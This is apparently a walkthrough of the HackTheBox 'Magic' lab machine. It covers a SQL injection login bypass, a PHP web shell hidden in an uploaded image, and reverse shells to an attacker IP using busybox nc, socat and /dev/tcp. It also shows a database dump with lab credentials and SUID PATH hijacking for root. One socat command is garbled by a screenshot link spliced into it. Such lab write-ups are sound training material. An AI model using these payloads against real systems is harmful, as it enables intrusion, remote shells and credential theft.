 ```yaml
---
title: "Magic"
date: 2024-07-24
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "magic", "htb writeup", "htb walkthrough", "hackthebox", "writeup"]
---
```


OS: Linux
Difficulty: Medium

## Credentials
```text
theseus : iamkingtheseus
theseus : Th3s3usW4sK1ng
```

## Enumeration

### Nmap

```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### HTTP

![screenshot](/assets/images/magic1.png)

> Please **[Login](http://10.10.10.185/login.php)**, to upload images.

#### login.php

![screenshot](/assets/images/magic2.png)

#### Fuzzing

```sh
ffuf -u http://10.10.10.185 -H "Host: FUZZ.usage.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

gobuster vhost -u http://10.10.10.185 -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

### SQLi

`' or 1=1-- -` as the username 

![screenshot](/assets/images/magic3.png)

```sh
echo "GIF8<?php echo system($_GET["cmd"]);?>" > test.gif
```
![screenshot](/assets/images/magic4.png)

-> did not work 

## Foothold

### File Upload - Bypass filters

Download an actual image, add `<?php echo system($_GET["cmd"]);?>` .

![screenshot](/assets/images/magic5.png)

![screenshot](/assets/images/magic7.png)

http://10.10.10.185/images/uploads/puppy.php.png?cmd=id

![screenshot](/assets/images/magic8.png)

```sh
# original payload
busybox nc 10.10.14.6 443 -e /bin/sh

# url encoded payload
busybox%20nc%2010.10.14.6%20443%20-e%20%2Fbin%2Fsh
```

Execute the command

![screenshot](/assets/images/magic10.png)

Getting a shell and upgrade to interactive shell

![screenshot](/assets/images/magic11.png)

## Privilege Escalation

### Enumeration

![screenshot](/assets/images/magic12.png)

![screenshot](/assets/images/magic13.png)

![screenshot](/assets/images/magic14.png)

```sh
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![screenshot](/assets/images/magic15.png)

### Shell as theseus

![screenshot](/assets/images/magic17.png)

![screenshot](/assets/images/magic18.png)

```sh
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

> `/-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo`

![screenshot](/assets/images/magic21.png)

![screenshot](/assets/images/magic22.png)

This program is using `cat /proc/cpuinfo` instead of `/bin/cat /proc/cpuinfo`. 
The `/bin` directory containing the `cat` binary is included in the user's PATH environment variable. 

```sh
echo $PATH
```

![screenshot](/assets/images/magic23.png)

Normally, it is `/usr/bin/local`. This behavior can be exploited by modifying the `PATH` variable to contain a directory that is writable by our current user. 

Users are allowed to modify the variable and prepend a directory. Let's add `/tmp` directory to the `PATH`. 

```sh
export PATH=/tmp:$PATH
echo $PATH
```

![screenshot](/assets/images/magic24.png)

Added. 

Downlaod pre-compiled Socat to target.

Create a simple script in bash that sends a reverse shell to attackaer machine using Socat.

```sh
echo "./socat tcp-connect:10.10.14.6:555![screenshot](/assets/images/magic26.png)5
exec:/bin/sh,pty,stderr,setsid,sigint,sane" > cat
chmod +x cat
```

```sh
/bin/sysinfo
```

To execute the cat script. 
-> Did not work 

### Alternative method
```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/5555 0>&1' > fdisk

chmod +x fdisk
theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
theseus@ubuntu:/dev/shm$ echo $PATH    
```

![screenshot](/assets/images/magic25.png)

![screenshot](/assets/images/magic26.png)
